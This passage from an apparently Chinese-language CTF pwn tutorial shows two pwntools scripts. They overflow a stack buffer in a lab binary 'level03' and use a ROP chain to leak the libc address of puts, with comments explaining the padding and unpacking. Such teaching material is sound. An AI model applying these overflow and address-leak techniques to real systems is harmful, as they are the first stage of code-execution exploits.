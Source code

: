 ```python
from pwn import*
o = process("./level03")
elf = ELF("./level03")
pop_rdi = 0x00000000004005d3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(puts_got)	# puts@got作为puts函数的参数
payload += p64(puts_plt)	# 执行puts函数将puts的真实地址打印出来
o.sendline(payload)
o.interactive()
```

![image-20220318195648082](自救指南.assets/image-20220318195648082.png)

这一串乱码就是puts函数的真实地址, 需要把它接收过来, 然后从小端序转换为正常的顺序

```python
from pwn import*
o = process("./level03")
elf = ELF("./level03")
pop_rdi = 0x00000000004005d3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(puts_got)	# puts@got作为puts函数的参数
payload += p64(puts_plt)	# 执行puts函数将puts的真实地址打印出来
o.recv()	# 需要将输出缓冲中的东西都读取出来, 要不然就会影响下面puts_addr的读出
o.sendline(payload)
puts_addr = u64((o.recv(6)).ljust(8, '\x00'))
# u64是解包操作就是将数据从小端序变为正常顺序, 是p64的反向操作, 32为下为u32
# 同时u64只能解8字节数据, 也就是大于或小于8字节都会报错, u32是4字节
# 一般真实地址只有6个字节, recv值接收6个字节
# ljust是为了和8字节对齐, 这样才能解包
print hex(puts_addr)
o.interactive()
```
